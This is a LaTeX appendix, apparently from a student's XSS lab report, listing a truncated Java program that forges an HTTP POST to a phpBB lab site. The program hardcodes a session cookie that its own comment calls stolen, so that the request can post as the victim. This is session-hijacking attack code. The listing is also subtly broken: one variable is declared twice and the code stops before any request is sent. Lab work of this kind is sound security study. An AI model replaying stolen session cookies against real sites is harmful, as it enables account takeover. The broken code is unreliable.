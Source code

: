 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
\end{lstlisting}

\section{Java application for forging message with cookie.\label{app:java}}

\lstset{
  captionpos=b,
  frame=single,
  language=Java,
  breaklines=true,
  caption="Java application for forging message with cookie.",
  label=parta:script
}
\begin{lstlisting}
import java.io.*;
import java.net.*;
public class HTTPSimpleForge {

  public static void main(String[] args) throws IOException {

    try {
      int responseCode;
      InputStream responseIn=null;

      // URL to be forged.
      URL url = new URL ("http://www.xsslabphpbb.com/posting.php");
      
      // URLConnection instance is created to further parameterize a
      // resource request past what the state members of URL instance
      // can represent.
      URLConnection urlConn = url.openConnection();
      if (urlConn instanceof HttpURLConnection) {
        urlConn.setConnectTimeout(60000);
        urlConn.setReadTimeout(90000);
      }

      // addRequestProperty method is used to add HTTP Header Information.
      // Here we add User-Agent HTTP header to the forged HTTP packet.
      urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
      urlConn.addRequestProperty("Content-Type", "application/x-www-form-urlencoded");
      
      // Stolen cookie from echoserv
      String stolenCookie = "phpbb2mysql_t%3Da%253A5%253A%257Bi%253A1%253Bi%253A1418225227%253Bi%253A2%253Bi%253A1418223204%253Bi%253A5%253Bi%253A1418223252%253Bi%253A6%253Bi%253A1418223310%253Bi%253A7%253Bi%253A1418225234%253B%257D%3B%20phpbb2mysql_data%3Da%253A2%253A%257Bs%253A11%253A%2522autologinid%2522%253Bs%253A0%253A%2522%2522%253Bs%253A6%253A%2522userid%2522%253Bs%253A1%253A%25224%2522%253B%257D%3B%20phpbb2mysql_sid%3D642b0037b1b4f81a4141e8fb505e50f6";

	  // Remove HTML encoding
      String decodedCookie = URLDecoder.decode(stolenCookie); 
        
      String decodedCookie = URLDecoder.decode(stolenCookie); 
      
      System.out.println(decodedCookie);
      

\end{lstlisting}
\end{appendices}
\end{document}
